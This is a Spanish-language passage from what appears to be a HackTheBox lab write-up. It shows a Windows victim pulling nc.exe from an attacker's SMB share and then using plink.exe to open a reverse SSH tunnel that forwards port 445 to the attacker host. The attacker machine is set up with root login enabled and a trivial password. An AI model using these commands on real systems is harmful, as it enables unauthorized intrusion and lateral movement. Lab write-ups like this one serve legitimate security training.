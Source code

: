 ```bash
copy \\10.10.14.16\smbFolder\nc.exe nc.exe
copy \\10.10.14.16\smbFolder\nc.exe nc.exe
        1 file(s) copied.

dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 424C-F32D

 Directory of C:\WINDOWS\Temp\Privesc

09/21/2021  04:39 AM    <DIR>          .
09/21/2021  04:39 AM    <DIR>          ..
09/21/2021  01:02 AM            28,160 nc.exe
09/21/2021  01:27 AM           646,384 plink.exe
               2 File(s)        674,544 bytes
               2 Dir(s)   1,324,756,992 bytes free

C:\WINDOWS\Temp\Privesc>
```

Debemos tener en cuenta que necesitamos hacer algunos cambios en nuetra máquina de atacante; primero editamos el archivo `/etc/ssh/sshd_config` modificando los sigueintes parámetros:

- Port 2222
- PermitRootLogin yes

Cambiamos el puerto default del servicio SSH debido a que la plataforma de HackTheBox tiene unas reglas que no permite el puerto 22 para hacer *Remote Port Forwarding* y permitimos el login del usuario **root**.

Una vez hecho esto, levantamos y reiniciamos el servicio SSH; así como también validamos que no tenemos el puerto 445 listado en `netastat`:

```bash
❯ service ssh start
❯ service ssh restart
❯ netstat -nat | grep "445"
```

Por útlimo, cambiamos la contraseña del usuario **root** por una más fácil (para este caso será *hola*). Ahora si, ejecutamos el programa en la máquina víctima:

```bash
❯ passwd
Nueva contraseña: 
Vuelva a escribir la nueva contraseña: 
passwd: contraseña actualizada correctamente
```

```bash
plink.exe -l root -pw hola -R 445:127.0.0.1:445 -P 2222 10.10.14.16                                                         [4/4]
plink.exe -l root -pw hola -R 445:127.0.0.1:445 -P 2222 10.10.14.16
The server's host key is not cached. You have no guarantee
that the server is the computer you think it is.
The server's ssh-ed25519 key fingerprint is:         
ssh-ed25519 255 SHA256:NCwkGzWJ47qJZj30RdSxdkzOTenMrn4+fRsdijaL5GQ
If you trust this host, enter "y" to add the key to       
PuTTY's cache and carry on connecting.
If you want to carry on connecting just once, without
adding the key to the cache, enter "n".
If you do not trust this host, press Return to abandon the
connection.                                                     
y                                                               
Using username "root".                                          
-e                                                              
 ____                      _     ____            
```